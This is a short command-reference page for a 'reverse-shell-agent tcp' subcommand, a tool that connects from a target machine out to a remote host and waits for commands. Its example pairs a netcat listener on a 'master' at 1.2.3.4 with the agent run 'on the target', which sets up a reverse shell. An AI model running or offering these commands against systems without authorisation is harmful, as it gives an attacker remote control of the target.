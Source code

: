 ## reverse-shell-agent tcp

Agent that connects to a remove tcp endpoints and listen for commands

### Synopsis

Agent that connects to a remove tcp endpoints and listen for commands

```
reverse-shell-agent tcp [flags]
```

### Examples

```
# On the master (1.2.3.4)
$ nc -v -l -p 7777

# On the target
$ reverse-shell-agent tcp --host=1.2.3.4 --port=7777

```

### Options

```
  -h, --help          help for tcp
      --host string   remote host to connect to (default "0.0.0.0")
      --port int32    remote port to connect to (default 8080)
```

### Options inherited from parent commands

```
  -v, --verbose int   Be verbose on log output
```

### SEE ALSO

* [reverse-shell-agent](reverse-shell-agent.md)	 - Agents listening for remote commands

